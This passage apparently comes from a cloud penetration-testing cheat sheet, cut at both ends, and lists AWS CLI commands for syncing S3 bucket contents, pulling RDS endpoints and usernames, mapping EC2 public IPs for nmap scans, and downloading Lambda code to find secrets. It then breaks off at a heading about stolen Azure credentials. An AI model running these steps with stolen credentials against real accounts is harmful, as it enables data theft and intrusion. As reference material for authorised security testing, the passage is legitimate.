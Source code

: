 **2. S3 Buckets (With Credentials)**
```bash
# List all buckets you can access
aws s3 ls

# Download interesting content
aws s3 sync s3://BUCKET_NAME ./backup
```

**3. RDS Databases**
```bash
# List databases
aws rds describe-db-instances

# Get connection info
aws rds describe-db-instances --db-instance-identifier DB_NAME

# Extract:
# - Endpoint (hostname)
# - Port
# - Master username
# Then try to connect from internet or pivot point
```

**4. EC2 Instances**
```bash
# List instances
aws ec2 describe-instances

# Get public IPs
aws ec2 describe-instances --query 'Reservations[*].Instances[*].[InstanceId,PublicIpAddress,PrivateIpAddress]'

# Check for exposed services on those IPs
nmap PUBLIC_IP
```

**5. Lambda Functions**
```bash
# List functions
aws lambda list-functions

# Get function code
aws lambda get-function --function-name FUNCTION_NAME

# Download URL is provided - may contain secrets in code
```

---

## AZURE EXPLOITATION

### Using Stolen Azure Credentials
